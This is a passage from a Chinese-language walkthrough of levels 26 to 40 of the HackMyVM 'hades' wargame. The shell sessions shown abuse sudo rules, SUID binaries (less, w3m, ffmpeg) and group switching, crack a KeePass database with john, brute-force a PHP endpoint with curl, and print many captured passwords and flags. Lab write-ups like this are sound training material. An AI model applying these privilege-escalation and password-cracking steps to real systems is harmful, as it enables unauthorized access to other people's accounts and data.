-rw-r----- 1 root  delia   150 Apr  5  2024 mission.txt
---x--x--- 1 delia delia 15952 Apr  5  2024 showpass
daphne@hades:~$ cat /tmp/1.txt

FkyuXkkJNONDChoaKzOI
```

## level27

```shell
demeter@hades:~$ ls -al
total 32
drwxr-x--- 2 root    demeter 4096 Apr  5  2024 .
drwxr-xr-x 1 root    root    4096 Apr  5  2024 ..
-rw-r--r-- 1 demeter demeter  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 demeter demeter 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 demeter demeter  807 Apr 23  2023 .profile
-rw-r----- 1 root    demeter   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root    demeter  119 Apr  5  2024 mission.txt
demeter@hades:~$ cat flagz.txt
^JiviWHRVRZLSfjBuwAi^
demeter@hades:~$ cat mission.txt
################
# MISSION 0x27 #
################

## EN ##
The user echo permute. # permute 权限置换

## ES ##
La usuaria echo permuta.
demeter@hades:~$ sudo -l
Matching Defaults entries for demeter on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User demeter may run the following commands on hades:
    (echo) NOPASSWD: /usr/bin/ptx
```

`ptx` :

- 把每一行看作一条记录
- 挑出其中的关键词
- 按关键词排序
- 输出“关键词连同前后上下文”的索引格式

**ptx 的典型输出长什么样**

假设有个文件 input.txt：

```
Linux is a powerful operating system 
Unix provides many text processing tools 
Linux supports scripting and automation 
```

执行：

```
ptx input.txt 
```

它会生成一种“关键词在上下文中”的索引，效果大致像这样：

```
                 powerful operating system  Linux  is a              many text processing tools  Unix  provides           supports scripting and automation  Linux
```

```shell
demeter@hades:~$ sudo -u echo /usr/bin/ptx /pwned/echo/flagz.txt
                                   ^   abeDeOxlPMAABepeBHy^
```

`echo/GztROerShmiyiCIlfepG`

## level28

```
echo@hades:~$ ls -al
total 468
drwxr-x--- 2 root echo   4096 Apr  5  2024 .
drwxr-xr-x 1 root root   4096 Apr  5  2024 ..
-rw-r--r-- 1 echo echo    220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 echo echo   3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 echo echo    807 Apr 23  2023 .profile
-rw-r----- 1 root echo     22 Apr  5  2024 flagz.txt
-rw-r----- 1 root echo    142 Apr  5  2024 mission.txt
-rw-r----- 1 root echo 442848 Dec 20  2021 noise.wav
echo@hades:~$ cat mission.txt
################
# MISSION 0x28 #
################

## EN ##
The user eos can see the sounds.

## ES ##
La usuaria eos puede ver los sonidos.
```

Audacity
看频率图，就可以发现密码：



密码：`CWBKRQX`

## level29

```shell
eos@hades:~$ cat mission.txt
################
# MISSION 0x29 #
################

## EN ##
The user gaia is very careful saving her passwords.

## ES ##
La usuaria gaia es muy precavida guardando sus passwords.
```

`scp` 命令下载 `secretz.kbdx`。

```shell
warn@kali:~/Desktop$ file secretz.kbdx                         
secretz.kbdx: Keepass password database 2.x KDBX
#文件内容是 KeePass 2.x 的 KDBX 密码库。
```

```shell
keepass2john secretz.kbdx > pass # 把 KeePass 的 .kdbx 文件转换成 John the Ripper 能识别的“哈希/校验数据”格式
john pass --wordlist="/usr/share/wordlists/rockyou.txt" # 负责“拿候选密码去验证是否正确”

warn@kali:~/Desktop$ john pass --wordlist="/usr/share/wordlists/rockyou.txt"
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
heaven           (secretz)     
1g 0:00:00:00 DONE (2026-03-18 21:38) 1.587g/s 304.7p/s 304.7c/s 304.7C/s pepper..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

密码是`heaven`。

```shell
keepass2 secretz.kdbx
# 输入: heaven
# 导出密码
```

```
"Account","Login Name","Password","Web Site","Comments"
"Trash","Gaia","sbUcegcdYTTWzTKojzgm","",""
```

## level30

```shell
gaia@hades:~$ cat mission.txt
################
# MISSION 0x30 #
################

## EN ##
User halcyon wants all the powah.

## ES ##
La usuaria halcyon quiere todo el powah.
gaia@hades:~$ sudo -l
[sudo] password for gaia:
Sorry, user gaia may not run sudo on hades.
gaia@hades:~$
gaia@hades:~$ cat hpass1.txt

manuela

gaia@hades:~$ cat hpass2.txt
cat: hpass2.txt: Permission denied
gaia@hades:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/exim4
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/ffmpeg
/usr/bin/getty
/usr/bin/sudo
/usr/bin/w3m
/opt/gift_hacker
gaia@hades:~$ getent group powah
powah:x:1000:
# 该组没有该用户
# /etc/group 查看组
```

`newgrp` 用来 **临时切换当前 shell 的有效组（effective group）**，或者让你**立即启用新加入的组**，不用先退出再登录。

最常见场景：

- 你刚被加入某个组，比如 docker
- 直接执行：

```
newgrp docker 
```

这样会启动一个新的 shell，并把当前有效组切换成 docker，让组权限立刻生效。

```shell
gaia@hades:~$ cat hpass1.txt

manuela
gaia@hades:~$ newgrp powah
Password:
gaia@hades:~$ id
uid=2021(gaia) gid=1000(powah) groups=1000(powah),2021(gaia)
gaia@hades:~$ cat hpass2.txt

cuMRRameGdmhVxHcYYYs
```

## level31

```shell
halcyon@hades:~$ cat mission.txt
################
# MISSION 0x31 #
################

## EN ##
The user hebe has one 'magicword' to get her password using http://localhost/req.php

## ES ##
La usuaria hebe tiene una 'magicword' para obtener su password usando http://localhost/req.php
```

从kali上传一个字典到服务器上。

```shell
warn@kali:~/Desktop$ head -n 100 /usr/share/wordlists/rockyou.txt > 31_level.txt

warn@kali:scp -P 6666 ./31_level.txt halcyon@hades.hackmyvm.eu:/tmp/

halcyon@hades.hackmyvm.eu's password: 
31_level.txt                                                100%  785     4.0KB/s   00:00    
```

```shell
halcyon@hades:/tmp/123$ cat 3.sh
#!/bin/bash
for i in $(cat 31_level.txt); do
   curl http://localhost/req.php?magicword=${i}
done
halcyon@hades:/tmp/123$ bash 3.sh

NO...

NO...

NO...

tOlbuBLjFWntVDNmjHIG

```

## level32

```shell
hebe@hades:~$ cat mission.txt
################
# MISSION 0x32 #
################

## EN ##
User hera refuses to use Discord, she prefer an older and open source service.

## ES ##
La usuaria hera se niega a usar Discord, prefiere un medio mas antiguo y abierto.
```

```shell
ls -al /etc/init.d
# /etc/init.d 是放置服务启动文件的文件夹
# /etc/.... 是放置服务的配置文件 如/etc/nginx/nginx.conf
hebe@hades:~$ ls -al /etc/init.d
total 80
drwxr-xr-x 1 root root 4096 Mar 17 11:17 .
drwxr-xr-x 1 root root 4096 Mar 17 11:16 ..
-rwxr-xr-x 1 root root 3059 Oct  5  1972 cron
-rwxr-xr-x 1 root root 3152 Mar 11  1987 dbus
-rwxr-xr-x 1 root root 7167 Nov 25  2011 exim4
-rwxr-x--- 1 root root  643 Apr 24  2013 gemini
-rwxr-xr-x 1 root root 1748 May 24  2001 hwclock.sh
-rwxr-xr-x 1 root root 2366 Mar 17 11:17 inspircd
-rwxr-xr-x 1 root root 4579 May 11  1972 nginx
-rwxr-xr-x 1 root root 4294 Mar 30  1996 php8.2-fpm
-rwxr-xr-x 1 root root  959 Sep 10  2020 procps
-rwxr-xr-x 1 root root 4060 Oct 18  1982 ssh
-rwxr-xr-x 1 root root 1161 Aug 14  1983 sudo
-rwxr-xr-x 1 root root 2067 Apr 23  2013 vsftpd
-rwxr-xr-x 1 root root 2762 Jul 14  1970 x11-common
# 存在这么多的服务启动文件
# inspircd 是 基于 irc 协议的服务，可以用于聊天
# 从这个里可以确定使用的聊天软件确实是 基于irc 的。
```

```sh
./busybox nc 127.0.0.1 6667
NICK CUO123
USER CUO123 0 * : CUO123
LIST
:hades.hmv 321 CUO123 Channel :Users Name
:hades.hmv 322 CUO123 #channel666 0 :[+Pnt] Welcome hacker! Take it: JzpyRXRzWoHKZwgWzleM
:hades.hmv 323 CUO123 :End of channel list.
```

## level33

```shell
hera@hades:~$ cat mission.txt
################
# MISSION 0x33 #
################

## EN ##
User hermione would like to know what hera was doing.

## ES ##
A la usuaria hermione le gustaria saber que hacia hera.
```

`.bash_history` 存在 隐藏flag。

```shell
hera@hades:~$ cat .bash_history

ls
ps
sudo -u hermione bash
cp /etc /etc2
^LVFcQoSJeZgUltXJKnpZ^
ls
id
cat /usr/hera
rm /usr/hera
whoami
zip -R etc.zip /etc
```

进行信息收集，发现`/usr/hera`，读取`/usr/hera`，就可以拿到密码。

```shell
hera@hades:~$ cat /usr/hera
vzhOebSSplFoXPKxwtqU
```

## level34

```shell
hermione@hades:~$ cat mission.txt
################
# MISSION 0x34 #
################

## EN ##
User hero only talks to some groups.

## ES ##
La usuaria hero solo se habla con algunos grupos.
hermione@hades:~$ ./beastgroup

I only trust group 6666, you are group 2025
hermione@hades:~$ id
uid=2025(hermione) gid=2025(hermione) groups=2025(hermione),6666(beast)
# 从id输出的信息可以看出 2025 为主组 6666 为附属组。
hermione@hades:~$ gentent group beast
-bash: gentent: command not found
hermione@hades:~$ getent group beast
beast:x:6666:hermione
hermione@hades:~$ newgrp beast
hermione@hades:~$ id
uid=2025(hermione) gid=6666(beast) groups=6666(beast),2025(hermione)
hermione@hades:~$ ./beastgroup

vlImTDSGnTMwLFgRWCOc
```

## level35

```shell
hero@hades:~$ id
uid=2026(hero) gid=2026(hero) groups=2026(hero)
hero@hades:~$ cat mission.txt
################
# MISSION 0x35 #
################

## EN ##
User hestia likes to keep the screen clean.

## ES ##
A la usuaria hestia le gusta mantener la pantalla limpia.
hero@hades:~$ ./cleaner
```

从这里开始翻不了历史记录，啥情况下翻不了历史记录：新建立一个shell的时候翻不了历史记录。

```shell
hero@hades:~$ id
uid=2026(hero) gid=2226(her0) groups=2226(her0),2026(hero)
hero@hades:~$ find / -group her0 2>/dev/null | grep -v "proc"
/usr/share/libs
hero@hades:~$ cat /usr/share/libs
opTNnZQAuFJsauNPHXVq
```

## level36

```shell
hestia@hades:~$ ls -al
total 228
drwxr-x--- 2 root   hestia   4096 Apr  5  2024 .
drwxr-xr-x 1 root   root     4096 Apr  5  2024 ..
-rw-r--r-- 1 hestia hestia    220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 hestia hestia   3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 hestia hestia    807 Apr 23  2023 .profile
-rw-r----- 1 root   hestia     22 Apr  5  2024 flagz.txt
-r-s--s--- 1 ianthe hestia 198960 Apr  5  2024 less
-rw-r----- 1 root   hestia    157 Apr  5  2024 mission.txt
hestia@hades:~$ cat flagz.txt
^mIZKIDJYZQDogbkwRGy^
hestia@hades:~$ cat mission.txt
################
# MISSION 0x36 #
################

## EN ##
User ianthe has left us her own less.

## ES ##
La usuaria ianthe nos ha dejado su propio less.
hestia@hades:~$ ./less
Missing filename ("less --help" for help)
hestia@hades:~$ ./less flagz.txt
hestia@hades:~$ ./less /pwned/ianthe/flagz.txt
/pwned/ianthe/flagz.txt: Permission denied
hestia@hades:~$ find / -user ianthe 2>/dev/null | grep -v "proc"
/opt/ianthe_pass.txt
/pwned/hestia/less
hestia@hades:~$ ls -al /opt/ianthe_pass.txt
-r--r----- 1 ianthe ianthe 21 Apr  5  2024 /opt/ianthe_pass.txt
hestia@hades:~$ ./less /opt/ianthe_pass.txt
DphioLqgVIIFclTwBsMP
```

## level37 ( 题目出的有问题了)

```shell
ianthe@hades:~$ ls -al
total 36
drwxr-x--- 2 root   ianthe 4096 Apr  5  2024 .
drwxr-xr-x 1 root   root   4096 Apr  5  2024 ..
-rw-r--r-- 1 ianthe ianthe  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 ianthe ianthe 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 ianthe ianthe  807 Apr 23  2023 .profile
-rw-r----- 1 root   ianthe   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root   ianthe  214 Apr  5  2024 irene_auth.php.old
-rw-r----- 1 root   ianthe  248 Apr  5  2024 mission.txt
ianthe@hades:~$ cat mission.txt
################
# MISSION 0x37 #
################

## EN ##
Seems that irene is developing an auth system http://localhost/irene_auth.php

## ES ##
Parece que irene esta desarrollando algun sistema de autenticacion http://localhost/irene_auth.php
ianthe@hades:~$ cat irene_auth.php.old

<?php
        $PAZZ = "Sardina123"; // Put real pass for irene.
        if(isset($_GET['pazz'])){
        if(strcmp($PAZZ, $_GET['pazz']) == 0){
                        print $PAZZ;
                }
                else{
                        print("NOP");
                }
        }
        else {
                print("No pazz");
        }
?>
ianthe@hades:~$ curl -i -s http://localhost/irene_auth.php?pazz[]=1
HTTP/1.1 500 Internal Server Error
Server: nginx/1.22.1
Date: Fri, 20 Mar 2026 06:40:18 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
ianthe@hades:~$ php -version
PHP 8.2.7 (cli) (built: Jun  9 2023 19:37:27) (NTS)
Copyright (c) The PHP Group
Zend Engine v4.2.7, Copyright (c) Zend Technologies
    with Zend OPcache v8.2.7, Copyright (c), by Zend Technologies
```

`strcmp` 是 5.3 的一个特性：`strcmp` 只接受字符串参数，如果我们输入数组，他会报错，但在报错的同时，返回0；`php`版本是8.2.7，所以此题不存在此漏洞，题目出的有问题了。

## level38

```shell
irene@hades:~$ ls -al
total 48
drwxr-x--- 2 root  irene  4096 Apr  5  2024 .
drwxr-xr-x 1 root  root   4096 Apr  5  2024 ..
-rw-r--r-- 1 irene irene   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 irene irene  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 irene irene   807 Apr 23  2023 .profile
-rw-r----- 1 root  irene    22 Apr  5  2024 flagz.txt
---s--s--- 1 root  irene 16216 Apr  5  2024 hatechars
-rw-r----- 1 root  irene   145 Apr  5  2024 mission.txt
irene@hades:~$ cat flagz.txt
^ZACnrFArVosWGJNfPkN^
irene@hades:~$ cat mission.txt
################
# MISSION 0x38 #
################

## EN ##
User iris hates some characters.

## ES ##
La usuaria iris odia algunos caracteres.
irene@hades:~$ ./hatechars
Enter file to show:
1
/bin/cat: 1: No such file or directory
irene@hades:/etc$ find / -user iris 2>/dev/null
/etc/met.txt
irene@hades:/etc$ /pwned/irene/hatechars
Enter file to show:
$(pwd)/???????
FiqGNcXumTKwLTPRqXMh
# 这里会输出很多
```

## level39

```shell
iris@hades:~$ ls -al
total 32
drwxr-x--- 2 root iris 4096 Apr  5  2024 .
drwxr-xr-x 1 root root 4096 Apr  5  2024 ..
-rw-r--r-- 1 iris iris  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 iris iris 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 iris iris  807 Apr 23  2023 .profile
-rw-r----- 1 root iris   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root iris  137 Apr  5  2024 mission.txt
iris@hades:~$ cat flagz.txt
^xXcULtRBXxcHIUVxtXT^
iris@hades:~$ cat mission.txt
################
# MISSION 0x39 #
################

## EN ##
User kore likes to navigate!

## ES ##
A la usuaria kore le gusta navegar!
iris@hades:~$ sudo -l
[sudo] password for iris:
Sorry, user iris may not run sudo on hades.
iris@hades:~$ find / -user iris 2>/dev/null | grep -v "proc"
/dev/pts/2
/etc/met.txt
/pwned/iris/.bash_logout
/pwned/iris/.bashrc
/pwned/iris/.profile
iris@hades:~$ find / -user kore 2>/dev/null | grep -v "proc"
/srv/kore_pass.txt
/usr/bin/w3m
iris@hades:~$ ls -al w3m
ls: cannot access 'w3m': No such file or directory
iris@hades:~$ ls -al /usr/bin/w3m
-rwS--s--- 1 kore iris 1630888 Jan 29  2023 /usr/bin/w3m
iris@hades:~$ w3m /srv/kore_pass.txt
mdAXiSXteTPiGGTpmajP
```

## level40

```shell
kore@hades:~$ ls -al
total 32
drwxr-x--- 2 root kore 4096 Apr  5  2024 .
drwxr-xr-x 1 root root 4096 Apr  5  2024 ..
-rw-r--r-- 1 kore kore  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 kore kore 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 kore kore  807 Apr 23  2023 .profile
-rw-r----- 1 root kore   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root kore  156 Apr  5  2024 mission.txt
kore@hades:~$ cat flagz.txt
^FEYohPSMjrxKzdLNxkQ^
kore@hades:~$ cat mission.txt
################
# MISSION 0x40 #
################

## EN ##
User leda always wanted to edit videos.

## ES ##
La usuaria leda siempre quiso editar videos.
kore@hades:~$ find / -user leda 2>/dev/null
/usr/bin/ffmpeg
/etc/led
kore@hades:~$ ffmpeg -f concat -i /etc/led -c:v hevc_nvenc 1.mp4
ffmpeg version 5.1.4-0+deb12u1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 12 (Debian 12.2.0-14)
  configuration: --prefix=/usr --extra-version=0+deb12u1 --toolchain=hardened --libdir=/usr/lib/x86_64-linux-gnu --incdir=/usr/include/x86_64-linux-gnu --arch=amd64 --enable-gpl --disable-stripping --enable-gnutls --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libbs2b --enable-libcaca --enable-libcdio --enable-libcodec2 --enable-libdav1d --enable-libflite --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libglslang --enable-libgme --enable-libgsm --enable-libjack --enable-libmp3lame --enable-libmysofa --enable-libopenjpeg --enable-libopenmpt --enable-libopus --enable-libpulse --enable-librabbitmq --enable-librist --enable-librubberband --enable-libshine --enable-libsnappy --enable-libsoxr --enable-libspeex --enable-libsrt --enable-libssh --enable-libsvtav1 --enable-libtheora --enable-libtwolame --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx265 --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-libzvbi --enable-lv2 --enable-omx --enable-openal --enable-opencl --enable-opengl --enable-sdl2 --disable-sndio --enable-libjxl --enable-pocketsphinx --enable-librsvg --enable-libmfx --enable-libdc1394 --enable-libdrm --enable-libiec61883 --enable-chromaprint --enable-frei0r --enable-libx264 --enable-libplacebo --enable-librav1e --enable-shared
  libavutil      57. 28.100 / 57. 28.100
  libavcodec     59. 37.100 / 59. 37.100
  libavformat    59. 27.100 / 59. 27.100
  libavdevice    59.  7.100 / 59.  7.100
  libavfilter     8. 44.100 /  8. 44.100
  libswscale      6.  7.100 /  6.  7.100
  libswresample   4.  7.100 /  4.  7.100
  libpostproc    56.  6.100 / 56.  6.100
[concat @ 0x555f85b51d80] Line 1: unknown keyword 'NODEVILINHELL'
/etc/led: Invalid data found when processing input
```

`ffmpeg`的攻击逐段解释：

- ffmpeg
  调用 FFmpeg 程序。
- -f concat
  指定输入格式为 concat demuxer，也就是“拼接列表模式”。
  它不是直接读单个视频，而是读一个“列表文件”。
- -i concat.txt
  指定输入文件是 concat.txt。
  这个文件里一般会写要拼接的文件路径，例如：

```
file 'part1.mp4' 
file 'part2.mp4' 
file 'part3.mp4' 
```

​	FFmpeg 会按这个顺序读取这些片段。

- -c:v hevc_nvenc
  指定视频编码器使用 hevc_nvenc。
  含义是：

  - hevc：H.265/HEVC 编码
  - nvenc：使用 NVIDIA 显卡硬件编码

  所以这是“用英伟达 GPU 把输出视频编码成 H.265”。

- 1.mp4
  输出文件名。

## level41

